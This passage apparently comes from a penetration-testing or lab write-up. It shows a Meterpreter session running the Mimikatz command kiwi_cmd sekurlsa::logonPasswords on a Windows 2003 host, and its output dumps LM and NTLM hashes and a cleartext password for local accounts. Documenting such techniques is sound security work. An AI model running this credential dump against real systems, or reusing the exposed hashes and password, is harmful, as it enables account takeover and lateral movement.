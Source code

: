 2、`kiwi_cmd sekurlsa::logonPasswords`

```meterpreter
meterpreter > kiwi_cmd sekurlsa::logonPasswords

Authentication Id : 0 ; 872256 (00000000:000d4f40)
Session           : NetworkCleartext from 0
User Name         : IUSR_WWW-79FA760B73D
Domain            : WIN2003
Logon Server      : WIN2003
Logon Time        : 2023-5-20 21:22:26
SID               : S-1-5-21-3636755759-1784588792-1154290278-1000
        msv :
         [00000002] Primary
         * Username : IUSR_WWW-79FA760B73D
         * Domain   : WIN2003
         * LM       : a1323e561696c32ad68862a8c0118e7e
         * NTLM     : 00dd987a1d0c4540f919b3eb5fc0b1cd
         * SHA1     : e667cef8b822d775d96b16d8d0fa13a9a6c5c2e6
        wdigest :
         * Username : IUSR_WWW-79FA760B73D
         * Domain   : WIN2003
         * Password : eadL:}Yl5COK6z
        kerberos :
         * Username : IUSR_WWW-79FA760B73D
         * Domain   : WIN2003
         * Password : eadL:}Yl5COK6z
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : NETWORK SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2022-1-14 13:07:43
SID               : S-1-5-20
        msv :
         [00000002] Primary
         * Username : WIN2003$
         * Domain   : WORKGROUP
         * LM       : aad3b435b51404eeaad3b435b51404ee
         * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
         * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
        wdigest :
         * Username : WIN2003$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : win2003$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 52026 (00000000:0000cb3a)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2022-1-14 13:07:43
SID               : 
        msv :
        wdigest :
```